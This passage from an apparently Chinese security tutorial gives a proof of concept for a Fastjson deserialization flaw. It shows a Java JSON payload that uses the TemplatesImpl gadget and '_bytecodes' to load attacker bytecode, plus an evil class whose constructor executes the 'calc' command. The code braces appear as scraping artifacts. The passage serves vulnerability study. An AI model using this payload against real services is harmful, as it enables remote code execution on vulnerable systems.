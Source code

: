 ```
        final String fileSeparator = System.getProperty("file.separator");
        String path = "C:\\Users\\xxx\\Desktop\\code\\evil.class";
        String code = readClass(path);

        final String CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

        String text1 = "`{`\"@type\":\"" + CLASS +
                "\",\"_bytecodes\":[\""+code+"\"]," +
                "'_name':'a.b'," +
                "'_tfactory':`{` `}`," +
                "\"_outputProperties\":`{` `}``}`\n";
        System.out.println(text1);
        Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);
    `}`

    public static void main(String args[]) `{`
        poc();
    `}`
`}`
```
- 添加evil.java，并用javac编译为evil.class。
```
//evil.java

package com.fj;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;

public class evil extends AbstractTranslet`{`
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) `{`
    `}`
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException `{`
    `}`
    public evil() throws IOException `{`
        Runtime.getRuntime().exec("calc");
    `}`
    public static void main(String[] args) throws IOException `{`
        evil obj = new evil();
    `}`
`}`
```

运行后弹出计算器。

[![](https://p0.ssl.qhimg.com/t011fbe4e3308709670.png)](https://p0.ssl.qhimg.com/t011fbe4e3308709670.png)
